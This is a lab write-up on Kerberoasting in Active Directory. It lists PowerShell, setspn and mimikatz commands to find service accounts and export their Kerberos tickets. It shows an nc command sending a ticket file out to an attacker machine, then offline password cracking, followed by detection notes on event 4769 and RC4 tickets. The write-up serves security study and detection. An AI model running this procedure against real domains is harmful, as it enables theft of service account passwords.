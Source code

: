 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(i.e account used for running an IIS service\) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```

![](../../../.gitbook/assets/kerberoast-setspn%20%281%29.png)

Attacker requesting a kerberos ticket \(TGS\) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` \(from advanced Powershell logging\) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` \(23 decimal, meaning it's RC4 encrypted\):

![](../../../.gitbook/assets/kerberoast-logs.png)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](./#cracking-the-ticket):

![](../../../.gitbook/assets/kerberoast-tgs-res.png)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with. 

Creating a kerberos keytab file for use in wireshark:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../../.gitbook/assets/kerberoast-crackstation.png)

![](../../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../../.gitbook/assets/kerberoast.pcap" caption="kerberoast.pcap" %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}

